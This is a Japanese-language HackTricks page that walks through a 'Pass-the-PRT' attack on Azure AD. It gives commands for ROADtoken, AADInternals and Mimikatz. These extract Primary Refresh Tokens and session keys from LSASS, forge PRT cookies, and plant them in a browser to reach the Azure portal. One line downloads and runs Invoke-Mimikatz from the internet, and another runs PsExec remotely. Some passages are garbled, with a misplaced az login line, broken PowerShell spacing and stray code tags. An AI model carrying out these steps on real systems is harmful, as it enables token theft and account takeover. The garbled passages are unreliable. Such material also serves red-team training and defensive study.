 # Az - PRTを渡す

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をチェックしてください！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## PRTとは何か

{% content-ref url="az-primary-refresh-token-prt.md" %}
[az-primary-refresh-token-prt.md](az-primary-refresh-token-prt.md)
{% endcontent-ref %}

### PRTを持っているか確認する
```
Dsregcmd.exe /status
```
SSO Stateセクションでは、**`AzureAdPrt`** が **YES** に設定されていることを確認できます。

<figure><img src="../../../.gitbook/assets/image (10) (3).png" alt=""><figcaption></figcaption></figure>

同じ出力で、**デバイスがAzureに参加しているかどうか**も確認できます（`AzureAdJoined` フィールドにて）：

<figure><img src="../../../.gitbook/assets/image (10) (2).png" alt=""><figcaption></figcaption></figure>

## Pass-the-PRT

### 攻撃 - ROADtoken

この方法についての詳細は[**こちらの投稿をチェックしてください**](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/)。ROADtokenは適切なディレクトリから **`BrowserCore.exe`** を実行し、**PRTクッキーを取得します**。このクッキーはROADtoolsと共に使用され、**永続的なリフレッシュトークンを取得します**。

有効なPRTクッキーを生成するためには、まずnonceが必要です。\
これは以下の方法で取得できます：
```powershell
$TenantId = "19a03645-a17b-129e-a8eb-109ea7644bed"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"

$Params = @{
"URI"     = $URL
"Method"  = "POST"
}
$Body = @{
"grant_type" = "srv_challenge"
}
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
AwABAAAAAAACAOz_BAD0_8vU8dH9Bb0ciqF_haudN2OkDdyluIE2zHStmEQdUVbiSUaQi_EdsWfi1 9-EKrlyme4TaOHIBG24v-FBV96nHNMgAA
```
または、[**roadrecon**](https://github.com/dirkjanm/ROADtools)を使用してください：
```powershell
roadrecon auth prt-init
```
その後、攻撃するユーザーのプロセスからツール内で実行することで、新しいPRTを取得するために[**roadtoken**](https://github.com/dirkjanm/ROADtoken)を使用できます：
```powershell
.\ROADtoken.exe <nonce>
```
As oneliner:

{% code overflow="wrap" %}
`az login --service-principal -u <app-id> -p <password-or-cert> --tenant <tenant-id>`
{% endcode %}
```powershell
Invoke-Command - Session $ps_sess -ScriptBlock{C:\Users\Public\PsExec64.exe - accepteula -s "cmd.exe" " /c C:\Users\Public\SessionExecCommand.exe UserToImpersonate C:\Users\Public\ROADToken.exe AwABAAAAAAACAOz_BAD0__kdshsy61GF75SGhs_[...] > C:\Users\Public\PRT.txt"}
```
{% endcode %}

生成されたクッキーを使用して、Azure AD **Graph** や Microsoft Graph を使用して**ログイン**するための**トークンを生成**できます：
```powershell
roadrecon auth --prt-cookie <prt_cookie>

Connect-AzureAD --AadAccessToken <token> --AccountId <acc_ind>
```
### 攻撃 - AADInternalsの使用

`Get-AADIntUserPRTToken` は、Azure ADに参加しているか、ハイブリッドに参加しているコンピュータから**ユーザーのPRTトークンを取得します**。`BrowserCore.exe`を使用してPRTトークンを取得します。
```powershell
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken

# Get an access token for AAD Graph API and save to cache
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
```
Mimikatzから値を取得している場合、AADInternalsを使用してトークンを生成することもできます：
```powershell
# Mimikat "PRT" value
$MimikatzPRT="MC5BWU..."

# Add padding
while($MimikatzPrt.Length % 4) {$MimikatzPrt += "="}

# Decode
$PRT=[text.encoding]::UTF8.GetString([convert]::FromBase64String($MimikatzPRT))

# Mimikatz "Clear key" value
$MimikatzClearKey="37c5ecdfeab49139288d8e7b0732a5c43fac53d3d36ca5629babf4ba5f1562f0"

# Convert to Byte array and B64 encode
$SKey = [convert]::ToBase64String( [byte[]] ($MimikatzClearKey -replace '..', '0x$&,' -split ',' -ne ''))

# Generate PRTToken with Nonce
$prtToken = New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey -GetNonce
$prtToken
## You can already use this token ac cookie in the browser

# Get access token from prtToken
$AT = Get-AADIntAccessTokenForAzureCoreManagement -PRTToken $prtToken

# Verify access and connect with Az. You can see account id in mimikatz prt output
Connect-AzAccount -AccessToken $AT -TenantID <tenant-id> -AccountId <acc-id>
```
[https://login.microsoftonline.com](https://login.microsoftonline.com) にアクセスし、login.microsoftonline.com のすべてのクッキーをクリアして、新しいクッキーを入力します。
```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
Path: /
HttpOnly: Set to True (checked)
```
次に、[https://portal.azure.com](https://portal.azure.com) にアクセスしてください。

{% hint style="danger" %}
残りはデフォルト設定です。ページを更新してもクッキーが消えないことを確認してください。消える場合は、何か間違いがあった可能性があり、プロセスを再度行う必要があります。消えなければ、問題ありません。
{% endhint %}

### 攻撃 - Mimikatz

#### 手順

1. **LSASSからPRTを抽出**し、これを後で使用するために保存します。
2. **セッションキーを抽出**します。覚えているとおり、これは発行されてからローカルデバイスによって再暗号化されるので、**DPAPIマスターキーを使用してこれを復号化する必要があります**。DPAPIについての詳細は、この[**HackTricks**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords)リンクまたは[**Pass-the-cookie攻撃**](az-pass-the-cookie.md)をチェックしてください。
3. 復号化されたセッションキーを使用して、PRTとコンテキストのための派生キーを取得します。これは、**PRTクッキーを作成するために必要です**。派生キーは、クッキーのJWTを署名するために使用されます。Dirk-janはこのプロセスを[こちら](https://dirkjanm.io/digging-further-into-the-primary-refresh-token/)で素晴らしく説明しています。

{% hint style="warning" %}
これは、2021年8月の修正後は他のユーザーのPRTトークンを取得するためには機能しません。ユーザー自身のみが自分のPRTを取得できます（ローカル管理者は他のユーザーのPRTにアクセスできませんが、自分のPRTにはアクセスできます）。
{% endhint %}

{% hint style="danger" %}
**この方法でクッキーを生成することは、前回私にはうまくいきませんでした**
{% endhint %}

PRTを抽出するために**mimikatz**を使用できます：
```powershell
mimikatz.exe
Privilege::debug
Sekurlsa::cloudap

# Or in powershell
iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'
```
**Prt** ラベルの部分を**コピー**して保存します。\
下にハイライトされているセッションキー、または「**ProofOfPosessionKey**」も抽出します。これは暗号化されており、解読するためにはDPAPIマスターキーを使用する必要があります。

{% hint style="info" %}
PRTデータが表示されない場合、デバイスがAzure ADに参加していないか、古いバージョンのWindows 10を**実行している**可能性があります。
{% endhint %}

セッションキーを**解読**するには、**SYSTEM**権限に**昇格**してコンピュータコンテキストで実行し、**DPAPIマスターキーで解読する**ことができるようにする必要があります。次のコマンドを使用してこれを行うことができます：
```
token::elevate
dpapi::cloudapkd /keyvalue:[PASTE ProofOfPosessionKey HERE] /unprotect
```
<figure><img src="../../../.gitbook/assets/image (12) (2).png" alt=""><figcaption></figcaption></figure>

次に、両方のContext値をコピーします：

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

そして、派生したキー値をコピーします：

<figure><img src="../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

最後に、この情報をすべて使用して**PRTクッキーを生成**できます：
```bash
Dpapi::cloudapkd /context:[CONTEXT] /derivedkey:[DerivedKey] /Prt:[PRT]
```
```markdown
<figure><img src="../../../.gitbook/assets/image (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

[https://login.microsoftonline.com](https://login.microsoftonline.com) にアクセスし、login.microsoftonline.com のすべてのクッキーをクリアして、新しいクッキーを入力します。
```
```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
Path: /
HttpOnly: Set to True (checked)
```
次に [https://portal.azure.com](https://portal.azure.com) へ移動します。

{% hint style="danger" %}
残りはデフォルト設定です。ページを更新してもクッキーが消えないことを確認してください。消える場合は、何か間違いがあった可能性があり、プロセスを再度行う必要があります。消えなければ、問題ないはずです。
{% endhint %}

## 参考文献

* [https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/](https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/)
* [https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) で AWS ハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks にあなたの会社を広告したい**、または **HackTricks を PDF でダウンロードしたい** 場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式の PEASS & HackTricks グッズ**](https://peass.creator-spring.com) を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を発見し、独占的な [**NFT**](https://opensea.io/collection/the-peass-family) コレクションをチェックしてください。
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) に**参加する**か、[**テレグラム グループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) を**フォロー**してください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks) および [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) の GitHub リポジトリに PR を提出して、あなたのハッキングのコツを**共有**してください。

</details>

